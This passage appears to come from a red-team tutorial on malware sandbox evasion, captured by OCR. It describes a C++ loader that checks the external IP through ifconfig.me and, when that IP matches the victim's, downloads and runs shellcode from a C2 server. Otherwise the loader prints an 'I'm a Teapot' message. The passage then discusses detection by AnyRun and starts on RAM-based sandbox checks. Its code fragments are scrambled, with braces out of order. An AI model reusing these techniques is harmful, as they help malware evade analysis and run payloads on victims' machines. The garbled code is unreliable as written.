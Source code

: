 > **}**

This code can be broken down into the following steps:

1\. Declare the required variables mentioned above.

2\. Open an internet stream with the **URLOpenBlockingStreamA** Function to ifconfig.me/ip to check the current IP Address.

3\. Write the data stream returned from the **URLOpenBlockingStreamA** function to the memory.

4\. Append the data from the memory buffer to a string variable.

5\. Check and see if the string data is equal to the Victim’s IP Address.

> **if (checkIP() == TRUE) {**

> **}**

> **downloadAndExecute();**

> **return 0;**

> **else {**

> **cout&lt;&lt;”HTTP/418 I’m a Teapot!”; return 0;**

> **}**

> **}**

The code above invokes the new function, **checkIP**(), and if the IP Address returns **TRUE**, then invoke the **downloadAndExecute**() function to call the shellcode from our C2 server. If **FALSE**, return HTTP/418-I’m a teapot!”.

**Testing Our Code**

Now that we have wrapped up our second Sandbox Evasion technique, it is very important to know that this is an incredibly common TTP used by threat actors. Both APTs and Red Teams alike often use services to check the “**Abuse** **Info**” of an IP Address to gather information about an IP Address to determine if it is a legitimate company or not. **Any Run** is well aware of this Anti-Sandboxing technique and has even **flagged** it in our instance.

Looking at the two results, we can see that **ifconfig.me** is flagged as a “**questionable/Potentially Malicious**” site used to check for your external IP Address. In fact, this Sandbox evasion method ended up hurting our score, so it should be used as a last resort or with a recently deployed/custom IP Address checking server.

As you are now aware, not all Sandbox escaping techniques may be helpful in certain situations; you must pick and choose which evasion techniques you are going to implement carefully, as some may do more harm than good.

**Checking System Information**

We’re going to start off the System Information category with — the amount of **RAM** a system has. It’s important to note that Windows measures data in a non- standard format. If you have ever bought a computer that said it has “**256GB of SSD Storage**”, after turning it on, you would have closer to **240GB**. This is because Windows measures data in units of **1024-bytes** instead of **1000**-bytes. Be warned that this can get very confusing very quickly. Fortunately for us, we will be working in such small amounts of memory that accuracy can be a “best guess” instead of an exact number. Now that we know this, how can we determine how much memory is installed on the System?
